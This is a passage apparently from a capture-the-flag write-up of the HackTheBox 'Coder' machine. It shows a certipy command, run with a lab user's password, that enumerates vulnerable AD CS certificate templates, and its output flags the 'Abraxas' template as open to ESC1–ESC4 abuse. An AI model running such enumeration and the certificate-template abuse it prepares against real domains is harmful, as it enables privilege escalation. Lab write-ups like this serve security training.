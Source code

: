 According the certipy, the newly added template is vulnerable to ESC1, ESC2, ESC3, ESC4.

```bash
❯ certipy find -vulnerable -stdout -u e.black@coder.htb -p 'ypOSJXPqlDOxxbQSfEERy300' -dc-ip 10.129.229.190
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'coder-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'coder-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'coder-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'coder-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : coder-DC01-CA
    DNS Name                            : dc01.coder.htb
    Certificate Subject                 : CN=coder-DC01-CA, DC=coder, DC=htb
    Certificate Serial Number           : 2180F0D10CFECB9840260D0730724BDF
    Certificate Validity Start          : 2022-06-29 03:51:44+00:00
    Certificate Validity End            : 2052-06-29 04:01:44+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CODER.HTB\Administrators
      Access Rights
        ManageCertificates              : CODER.HTB\Administrators
                                          CODER.HTB\Domain Admins
                                          CODER.HTB\Enterprise Admins
        ManageCa                        : CODER.HTB\Administrators
                                          CODER.HTB\Domain Admins
                                          CODER.HTB\Enterprise Admins
        Enroll                          : CODER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Abraxas
    Display Name                        : Abraxas
    Certificate Authorities             : coder-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CODER.HTB\PKI Admins
      Object Control Permissions
```